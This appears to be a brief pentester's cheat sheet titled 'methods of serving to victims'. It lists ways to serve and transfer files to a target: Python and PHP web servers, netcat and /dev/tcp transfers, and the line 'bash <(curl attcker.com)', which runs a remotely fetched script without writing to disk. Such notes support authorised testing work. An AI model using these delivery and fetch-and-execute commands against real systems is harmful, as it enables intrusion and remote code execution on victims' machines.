 # methods of serving to victims

- MAKE a www directory!!!
- MAKE a www directory!!!
- MAKE a www directory!!!


> python web server
```
python3 -m http.server PORT_NUM
```

> PHP
```php
php -S 0.0.0.0:PORT_NUM
```

> if given command execution	
```sh
we can pipe the output of curl/wget to the shell of our choice avoiding touching disk
bash <(curl attcker.com)
```


> nc/named pipes in unix environment
```bash
useful for basic files
2 stages
	stage1: setup the target
		nc -lvnp PORT_NUM > OUT_FILE
	stage2: send the file
		cat SOME_TEXT_FILE | /dev/tcp/TARGET_IP/TARGET_PORT
```

> preserving "last modified" field
```sh
step1: copy link/download link
step2: wget the copied link

```





